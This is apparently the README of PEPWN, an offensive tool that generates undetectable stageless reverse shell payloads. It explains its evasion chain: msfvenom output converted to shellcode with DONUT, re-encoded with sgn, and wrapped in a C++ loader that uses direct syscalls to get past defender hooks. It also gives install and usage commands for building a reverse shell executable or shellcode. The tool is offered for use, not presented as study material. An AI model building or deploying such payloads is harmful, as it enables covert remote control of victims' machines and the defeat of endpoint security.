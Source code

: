 # PEPWN
PEPWN is a multi-chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


## Overview

>The creation of the payload in PEPWN is composed of 5 steps:

- [x] It generates an exe payload using msfvenom with the given IP and PORT and saves it in the /tmp directory.
- [x] It uses the [DONUT](https://github.com/TheWover/donut/) project. That will convert the generated EXE payload and extract shellcode from it. DONUT is just a project to facilitate extracting shellcodes from executable binaries
- [x] Using the same project DONUT, the tool will apply an encoding logic on the generated payload. But the logic implemented by DONUT is going to get statically detectable because it's using a static pattern of encryption/encoding with a static key. That's why I used a second layer of encoding.
- [x] Apply 2nd layer of encoding using [sgn](https://github.com/egebalci/sgn/). sgn encodes shellcodes using LSFR algorithm with random key in every compilation.
- [x] Transfers it into a shellcode format of use ex: (base64, hex string, and raw data), or create exe file that triggers the shellcode using syscalls.

If the user chooses to create exe file, the tool prepares a c++ file that invokes the shellcode with using syscalls instead of dll calls. For example instead of using "VirtualAlloc" dll call, it uses "NtAllocateVirtualMemory" syscall because the defender can easilly hook dll calls and detect the call to "VirtualAlloc" and consider it as malicious action.

## Installation

>Go to /root directory 

```
git clone https://github.com/0xx7/PEPWN.git
```
Once you download the project, build the dependencies using the following command, however make sure you are running as root:
```
./build.sh
```
Then, to run it with the manual/options add -H  
```
./wrapper -H
```
Example:

```
./wrapper.sh -f 1 -h 127.0.0.1 -p 4444
```
This command will create an EXE stageless reverse shell payload that connects back to 127.0.0.1 in port 4444. 

## Documentation

Usage:``` ./wrapper.sh <OPTIONS> ```
 
 OPTIONS are:
 
 **-f** : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 **-t** : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 **-h** : host/ip/domain of the listener
 
 **-p** : port of the listener
 
 **-H** : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


## Usage 

https://youtu.be/SYriAv_FPAg



